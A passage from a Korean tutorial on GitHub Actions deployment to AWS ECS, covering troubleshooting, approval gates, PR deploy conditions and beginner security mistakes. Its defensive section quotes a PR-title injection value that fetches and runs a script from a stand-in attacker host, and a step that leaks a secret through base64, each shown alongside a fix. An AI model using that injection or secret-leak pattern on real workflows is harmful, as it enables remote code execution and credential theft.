      --task-definition ${{ env.ECS_SERVICE }} \
      --query taskDefinition > task-definition.json

- name: Fill in the new image ID in the ECS task definition
  id: task-def
  uses: aws-actions/amazon-ecs-render-task-definition@v1
  with:
    task-definition: task-definition.json
    container-name: ${{ env.CONTAINER_NAME }}
    image: ${{ needs.build-and-push.outputs.image }}

- name: Deploy Amazon ECS task definition
  uses: aws-actions/amazon-ecs-deploy-task-definition@v1
  with:
    task-definition: ${{ steps.task-def.outputs.task-definition }}
    service: ${{ env.ECS_SERVICE }}
    cluster: ${{ env.ECS_CLUSTER }}
    wait-for-service-stability: true
```

`wait-for-service-stability: true`를 쓰면 새 Task가 정상적으로 실행될 때까지 Actions가 기다린다. 기본 대기 시간이 30분인데, 앱 시작이 느리면 타임아웃으로 배포 Job이 실패할 수 있다. 실제 배포는 완료된 상황일 수 있으므로 ECS 콘솔에서 직접 확인해야 한다.

`false`로 바꾸면 Task Definition 등록과 서비스 업데이트 명령만 날리고 바로 완료된다. 배포 성공 여부를 파이프라인에서 확인하고 싶다면 `true`로 두는 게 낫다.

세 스텝이 러너와 ECS 사이에서 오가는 순서는 아래 시퀀스와 같다. 마지막 두 줄, 즉 ECS가 새 Task를 띄우는 구간과 러너가 안정화를 기다리는 구간이 `wait-for-service-stability`가 지켜보는 부분이다.



`Download task definition` 스텝에서 `--task-definition`에 넘기는 값은 Task Definition **패밀리 이름**이다. 위 예시는 서비스 이름(`ECS_SERVICE`)을 그대로 넘기는데, 두 이름이 다르면 이런 로그가 나온다.

```
An error occurred (ClientException) when calling the DescribeTaskDefinition operation: Unable to describe task definition.
```

서비스 이름과 패밀리 이름을 같게 맞춰두는 팀이 많지만, 그렇지 않으면 `env`에 `TASK_FAMILY`를 따로 둔다.

---

## 실패 로그에서 원인 찾기

파이프라인이 실패하면 Actions 탭에서 실패한 Job 이름이 빨간색으로 표시된다. 클릭하면 스텝별 로그가 나온다.

아래 도식은 빨간 Job이 어느 것이냐에 따라 처음 열어볼 곳이 갈린다는 점을 보여준다. 특히 `deploy`는 Actions 로그만으로는 원인이 안 나오고 AWS 쪽으로 넘어가야 한다.



**테스트 실패**

```
> Task :test FAILED

SomethingServiceTest > someMethod_whenCondition_thenExpect() FAILED
    java.lang.AssertionError: expected: <200> but was: <500>
        at SomethingServiceTest.someMethod_whenCondition_thenExpect(SomethingServiceTest.java:42)
```

어느 테스트가 실패했는지 클래스명과 라인 번호가 나온다. 전체 스택 트레이스를 보려면 `Upload test results` 스텝에서 아티팩트를 다운로드한다. `build/reports/tests/test/index.html`을 브라우저에서 열면 실패한 테스트의 상세 내용이 보인다.

**Gradle 빌드 실패**

```
> Task :compileJava FAILED
error: cannot find symbol
  symbol:   class SomeClass
  location: class SomethingService
```

로컬에서는 됐는데 CI에서 실패하는 경우는 대부분 두 가지다. 로컬에 있는데 `.gitignore`에 걸려 커밋이 안 된 파일이 있거나, Lombok 같은 어노테이션 프로세서 설정이 빠진 경우다. Lombok을 쓰면 `build.gradle`에 `annotationProcessor` 의존성이 있어야 한다.

```groovy
dependencies {
    compileOnly 'org.projectlombok:lombok'
    annotationProcessor 'org.projectlombok:lombok'
}
```

**ECR 푸시 실패**

```
Error response from daemon: no basic auth credentials
```

ECR 로그인 스텝이 제대로 됐는지 확인한다. `configure-aws-credentials` 스텝이 실패해도 다음 스텝이 계속 진행되는 경우가 있다. Secrets 이름이 실제 등록된 것과 다르면 AWS 자격증명이 빈 값으로 들어간다.

**ECS 배포 실패**

```
Error: Service was unable to start a task successfully for a sustained period of time.
```

이 메시지만 보면 원인을 알 수 없다. ECS 콘솔 → 클러스터 → 서비스 → Events 탭에서 실제 실패 이유를 확인해야 한다. 대부분 컨테이너가 시작되다 죽는 건데, CloudWatch Logs에서 앱 로그를 보면 실제 에러가 나온다.

---

## 승인 게이트

`production` 같은 중요 환경에 자동으로 배포되는 걸 막으려면 `environment`에 Required Reviewers를 설정한다.

**등록 위치**: Repository → Settings → Environments → production → Required reviewers

승인자를 지정하면 `deploy` Job이 시작되기 전에 승인 대기 상태로 멈춘다. 지정된 사람이 Actions 탭에서 승인해야 배포가 진행된다. 아래 시퀀스에서 `deploy`가 러너를 받기 전에 멈춘다는 점, 그리고 거절하면 AWS 호출이 한 번도 일어나지 않는다는 점을 보면 된다.



```yaml
deploy:
  needs: build-and-push
  runs-on: ubuntu-latest
  environment: production   # Required reviewers가 설정된 환경
  steps:
    # ...
```

워크플로 YAML에서 추가 설정이 필요 없다. Environment에 설정한 보호 규칙이 자동으로 적용된다.

승인 대기 상태는 최대 30일간 유지된다. 만료되면 재실행해야 한다. 승인이 필요 없는 환경(스테이징 등)은 `environment`를 다른 이름으로 분리하거나 Required Reviewers 없이 환경만 만들어서 Secrets만 분리한다.

### 승인 화면이 안 뜨는 경우

Required reviewers를 설정했는데 승인 없이 바로 배포가 돌았다면, 워크플로의 `environment:` 이름과 설정 화면의 환경 이름이 다른 경우가 대부분이다. `production`과 `prod`를 다른 환경으로 보고, 없는 환경이면 GitHub가 **새로 자동 생성**해버린다. 보호 규칙이 없는 빈 환경이라 승인 없이 통과한다. 반대로 승인자가 본인 한 명뿐인 저장소에서는 "Prevent self-review" 옵션이 켜져 있으면 아무도 승인할 수 없어 Job이 계속 대기한다.

---

## PR 단계에서 배포 차단

`build-and-push` Job에 조건을 걸어두면 PR에서는 배포 단계가 실행되지 않는다.

```yaml
build-and-push:
  needs: test
  if: github.ref == 'refs/heads/main' && github.event_name == 'push'
```

PR을 올리면 `test` Job만 돌고 빌드·배포는 건너뛴다. PR 체크로는 테스트 통과만 확인하고, `main`에 머지된 후 실제 배포가 일어나는 흐름이다.

Actions 탭에서 `build-and-push`가 회색 "Skipped"로 보이면 조건에 걸려 건너뛴 것이다. 실패가 아니다. 다만 `needs` 체인에서 앞 Job이 Skipped이면 뒤 Job도 기본적으로 Skipped가 된다. `deploy`에 `if: always()`를 습관처럼 붙이면 이 연쇄가 끊겨서, PR에서도 배포가 실행되는 사고가 난다.

팀에서 feature 브랜치마다 스테이징 환경에 자동 배포하고 싶다면 조건을 바꾼다.

```yaml
build-and-push:
  needs: test
  if: |
    (github.ref == 'refs/heads/main' && github.event_name == 'push') ||
    (github.event_name == 'pull_request')

deploy-staging:
  needs: build-and-push
  if: github.event_name == 'pull_request'
  environment: staging

deploy-production:
  needs: build-and-push
  if: github.ref == 'refs/heads/main' && github.event_name == 'push'
  environment: production
```

이렇게 나누면 PR은 스테이징으로, `main` Push는 프로덕션으로 각각 배포된다. 두 경로가 어떻게 갈리는지는 아래 도식과 같다.



이 구성에서 주의할 점은 fork에서 온 PR이다. 위 조건만으로는 fork PR도 `build-and-push`까지 가려고 하는데, Secrets가 없어 AWS 인증에서 막힌다. 막혀서 다행인 상황이지, 이 동작을 믿고 설계하면 안 된다. 스테이징 배포는 같은 저장소 브랜치의 PR로 한정하는 조건(`github.event.pull_request.head.repo.full_name == github.repository`)을 명시해 두는 편이 낫다.

---

## 입문 단계에서 자주 하는 보안 실수

CI/CD 파이프라인은 AWS 자격증명과 배포 권한을 한 파일에 모아둔 곳이라, 워크플로 한 줄이 곧 공격 경로가 된다. 깊은 내용은 별도 문서에 있고, 여기서는 신입이 처음 몇 달 안에 실제로 저지르는 네 가지만 짚는다. 공격 기법과 방어 구조는 [CI/CD 파이프라인 공격](../Security/CI_CD_Pipeline_Attacks.md), 표현식 주입의 원리와 탐지는 [GitHub Actions 워크플로 인젝션](../Security/GitHub_Actions_Workflow_Injection.md)에서 다룬다. 실제 사고 사례는 [GitHub 보안 사고](../Security/Git_Hub_Security_Incidents.md)에 있다.

### Secret을 디버깅하려고 echo로 찍기

인증이 실패하면 값이 제대로 들어왔는지 궁금해서 이런 스텝을 넣는다.

```yaml
- name: Debug
  run: |
    echo "key=${{ secrets.AWS_ACCESS_KEY_ID }}"
    echo "${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

첫 줄은 `key=***`로 마스킹돼서 아무 정보도 못 얻고, 둘째 줄은 base64로 바뀐 값이 마스킹 목록과 일치하지 않아 로그에 그대로 남는다. 디버깅하려다 키를 로그에 박는 전형적인 모양이다. 로그는 저장소에 읽기 권한이 있는 사람이면 누구나 볼 수 있고(public 저장소면 전 세계), 삭제해도 이미 복사된 뒤일 수 있다. 값이 들어왔는지만 보고 싶으면 길이만 찍는다.

```yaml
- name: Check secret exists
  env:
    KEY: ${{ secrets.AWS_ACCESS_KEY_ID }}
  run: '[ -n "$KEY" ] && echo "set" || echo "empty"'
```

이미 찍었다면 로그를 지우는 걸로 끝내지 말고 그 키를 폐기하고 새로 발급한다. 절차는 [GitHub Secret 유출 대응](../Security/Git_Hub_Secret_Leak_Response.md)을 따른다.

### PR 제목을 run 스크립트에 그대로 넣기

PR 제목이나 브랜치명을 Slack 알림, 로그, 태그에 쓰고 싶어서 표현식을 `run` 안에 직접 쓴다.

```yaml
- name: Print PR title
  run: echo "PR title is ${{ github.event.pull_request.title }}"
```

`${{ }}`는 셸이 실행되기 **전에** 문자열로 치환된다. 그래서 제목에 따옴표가 있으면 셸 문법이 깨진다. 예를 들어 제목이 `Fix 5" display bug`이면 이런 로그가 나온다.

```
/home/runner/work/_temp/4f3a....sh: line 2: unexpected EOF while looking for matching `"'
Error: Process completed with exit code 2.
```

이건 우연히 깨진 경우다. 악의적인 제목이면 `"; curl http://attacker.example/x | sh; echo "` 같은 값이 그대로 명령으로 실행되고, 그 스텝에 주입된 Secrets도 같이 넘어간다. 해결은 표현식을 `env`로 한 번 옮기는 것이다. 값이 셸 문법이 아니라 환경변수 데이터로 전달된다.

```yaml
- name: Print PR title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR title is $PR_TITLE"
```

제목, 브랜치명, 커밋 메시지, 이슈 본문, 라벨 이름은 모두 외부 사람이 쓸 수 있는 값이다. `github.event.*` 아래 문자열이면 의심한다.

### 서드파티 액션을 태그로 참조하기

```yaml
- uses: some-user/deploy-helper@v1
```

`@v1`은 브랜치나 태그라서 작성자가 가리키는 커밋을 나중에 바꿀 수 있다. 어제 안전했던 `@v1`이 오늘 다른 코드를 실행할 수 있다는 뜻이다. 2025년 3월 `tj-actions/changed-files`에서 실제로 태그가 악성 커밋으로 옮겨져, 이 액션을 쓰던 저장소들의 Secrets가 워크플로 로그에 출력된 사고가 있었다. 외부 액션은 커밋 SHA 40자리로 고정한다.

```yaml
- uses: some-user/deploy-helper@3f9a1c5e7b2d4a6c8e0f1a2b3c4d5e6f7a8b9c0d   # v1.4.2
```

이 문서의 `actions/*`, `aws-actions/*`는 GitHub와 AWS가 직접 관리하는 액션이라 태그로 둬도 위험이 낮다. 개인 계정이나 소규모 조직이 올린 액션부터 SHA로 고정한다. SHA를 직접 관리하기 번거로우면 Dependabot의 `github-actions` 업데이트를 켜서 새 버전이 나올 때 SHA 갱신 PR을 받는다.

### 장기 AWS 키를 Secrets에 넣어두기

이 문서의 예제 YAML도 `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY`를 Secrets에 넣는 방식이다. 가장 빨리 따라 해볼 수 있어서 입문용으로 쓴 것이고, 실제 운영에는 권하지 않는다. 이 키는 만료가 없다. 한 번 새면 누군가 폐기할 때까지 계속 유효하고, 유출 여부를 알아채기도 어렵다.

대안은 OIDC다. 워크플로가 GitHub에서 단기 토큰을 받아 AWS의 IAM Role을 직접 맡는 방식이라 저장해 둘 키가 없다.



설정은 AWS 쪽에서 IAM OIDC Provider와 Role을 만들고, 워크플로에서 `role-to-assume`을 쓰는 것이 전부다.

```yaml
permissions:
  id-token: write
  contents: read

steps:
  - uses: aws-actions/configure-aws-credentials@v4
    with:
      role-to-assume: arn:aws:iam::123456789012:role/github-deploy
      aws-region: ap-northeast-2
```

처음 설정하면 두 가지에서 막힌다. `permissions`에 `id-token: write`가 없으면 토큰 자체를 못 받는다. Role의 신뢰 정책이 저장소·브랜치 조건과 맞지 않으면 이런 로그가 나온다.

```
Error: Could not assume role with OIDC: Not authorized to perform sts:AssumeRoleWithWebIdentity
```

신뢰 정책의 `sub` 조건(`repo:내조직/내저장소:ref:refs/heads/main` 형태)이 실제 실행 컨텍스트와 다르다는 뜻이다. `environment: production`을 쓰는 Job은 `sub` 값이 `repo:...:environment:production` 형태로 바뀌므로, 브랜치 기준으로 써 둔 정책과 어긋난다. 이 부분에서 하루를 쓰는 경우가 많다. 구조와 정책 작성은 [CI/CD 파이프라인 공격](../Security/CI_CD_Pipeline_Attacks.md)의 방어 절을 참고한다.
